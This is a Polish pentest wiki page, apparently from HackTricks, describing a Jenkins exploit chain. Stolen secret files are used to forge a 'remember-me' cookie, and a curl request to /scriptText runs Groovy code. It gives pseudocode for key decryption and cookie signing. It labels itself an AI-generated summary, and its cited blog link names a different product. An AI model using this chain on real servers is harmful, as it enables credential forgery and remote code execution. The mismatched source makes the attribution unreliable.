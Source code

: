 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{{#include ../../banners/hacktricks-training.md}}

W tym wpisie na blogu można znaleźć świetny sposób na przekształcenie podatności Local File Inclusion w Jenkins w RCE: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

To jest podsumowanie stworzone przez AI części wpisu, w której wykorzystanie arbitralnego ciasteczka jest nadużywane do uzyskania RCE poprzez lokalne odczytywanie plików, aż znajdę czas na stworzenie własnego podsumowania:

### Wymagania wstępne ataku

- **Wymaganie funkcji:** "Zapamiętaj mnie" musi być włączone (domyślne ustawienie).
- **Poziomy dostępu:** Atakujący potrzebuje uprawnień Overall/Read.
- **Dostęp do sekretów:** Możliwość odczytu zarówno zawartości binarnej, jak i tekstowej z kluczowych plików.

### Szczegółowy proces eksploatacji

#### Krok 1: Zbieranie danych

**Pobieranie informacji o użytkowniku**

- Uzyskaj konfigurację użytkownika i sekrety z `$JENKINS_HOME/users/*.xml` dla każdego użytkownika, aby zebrać:
- **Nazwa użytkownika**
- **Ziarno użytkownika**
- **Znacznik czasu**
- **Hash hasła**

**Ekstrakcja klucza sekretnego**

- Wyodrębnij klucze kryptograficzne używane do podpisywania ciasteczka:
- **Klucz sekretu:** `$JENKINS_HOME/secret.key`
- **Klucz główny:** `$JENKINS_HOME/secrets/master.key`
- **Plik klucza MAC:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Krok 2: Fałszowanie ciasteczka

**Przygotowanie tokena**

- **Oblicz czas wygaśnięcia tokena:**

```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000 // Dodaje jedną godzinę do bieżącego czasu
```

- **Konkatenacja danych dla tokena:**

```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```

**Deszyfrowanie klucza MAC**

- **Deszyfruj plik klucza MAC:**

```javascript
key = toAes128Key(masterKey)  // Konwertuj klucz główny na format klucza AES128
decrypted = AES.decrypt(macFile, key)  // Deszyfruj plik .mac
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Obliczanie podpisu**

- **Oblicz HMAC SHA256:**

```javascript
mac = HmacSHA256(token, macKey) // Oblicz HMAC używając tokena i klucza MAC
tokenSignature = bytesToHexString(mac) // Konwertuj MAC na ciąg szesnastkowy
```

**Kodowanie ciasteczka**

- **Generuj końcowe ciasteczko:**

```javascript
cookie = base64.encode(
username + ":" + tokenExpiryTime + ":" + tokenSignature
) // Koduj dane ciasteczka w Base64
```

#### Krok 3: Wykonanie kodu

**Uwierzytelnianie sesji**

- **Pobierz tokeny CSRF i sesji:**
- Wykonaj żądanie do `/crumbIssuer/api/json`, aby uzyskać `Jenkins-Crumb`.
- Przechwyć `JSESSIONID` z odpowiedzi, który będzie używany w połączeniu z ciasteczkiem "remember-me".

**Żądanie wykonania polecenia**

- **Wyślij żądanie POST z skryptem Groovy:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

- Skrypt Groovy może być używany do wykonywania poleceń na poziomie systemu lub innych operacji w środowisku Jenkins.

Przykład polecenia curl pokazuje, jak wykonać żądanie do Jenkins z niezbędnymi nagłówkami i ciasteczkami, aby bezpiecznie wykonać arbitralny kod.

{{#include ../../banners/hacktricks-training.md}}
